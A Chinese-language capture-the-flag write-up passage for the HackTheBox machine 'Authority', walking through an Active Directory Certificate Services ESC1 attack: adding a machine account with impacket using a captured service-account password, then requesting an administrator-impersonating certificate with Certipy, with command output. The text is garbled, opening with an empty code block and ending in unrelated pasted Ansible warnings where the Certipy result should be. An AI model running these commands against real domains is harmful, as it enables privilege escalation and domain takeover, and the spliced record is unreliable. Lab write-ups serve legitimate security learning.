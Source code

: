 ```powershell
```

注意到漏洞模板其中的 `msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT`，即满足[ESC1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)的利用条件（CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT）。  
以及 `HTB\Domain Computers` 具有“Enrollment”权限。而我们当前的账户正好有将机器加入域的权限。如果我们新加入一个机器，便有机器账户，应该就可以利用这个模板？ 

#### impacket-addcomputer添加机器账户
 
搜了一下发现impacket有 `addcomputer.py` 可以直接添加机器账户。

有个小报错，不过确认了一下成功添加了机器账户。  
*（后来突然意识到账号处的域名不应该是“HTB”而是“authority.htb”……即凭据该用 `authority.htb/svc_ldap:lDaP_1n_th3_cle4r!`）*

kali运行命令添加机器账户（OU等具体配置是来自上面拦截的 `svc_ldap` LDAP明文凭据，随便弄个就与其保持一致了）：
```bash
└─$ /usr/share/doc/python3-impacket/examples/addcomputer.py -computer-name TEST$ -computer-pass qwerasdf -baseDN DC=authority,DC=htb -computer-group OU='Service Accounts',OU=CORP,DC=authority,DC=htb -dc-ip 10.10.11.222 HTB/svc_ldap:lDaP_1n_th3_cle4r! 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] No DC host set and 'HTB' doesn't look like a FQDN. DNS resolution of short names will probably fail.
[*] Successfully added machine account TEST$ with password qwerasdf.
```

目标机器确认：
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> net group "Domain Computers"
Group name     Domain Computers
Comment        All workstations and servers joined to the domain

Members

-------------------------------------------------------------------------------
TEST$
The command completed successfully.
```

#### Abuse by Certipy

我们当前用户是 `svc_ldap`，而要利用的用户是我们自己添加的机器账户 `TEST$`。看了下Certify似乎只能用当前用户冒充其他用户（如管理员）。所以使用[hacktrick](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse)上说的另一个工具：Certipy。

根据[github文档](https://github.com/ly4k/Certipy#installation)安装Certipy：`pip3 install certipy-ad`。  
加入PATH：`export PATH=~/.local/bin:$PATH`。

##### 小插曲：迷之报错

```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -template 'CorpVPN' -upn administrator -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 5
Would you like to save the private key? (y/N) 
[-] Failed to request certificate

                                                                                                         
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available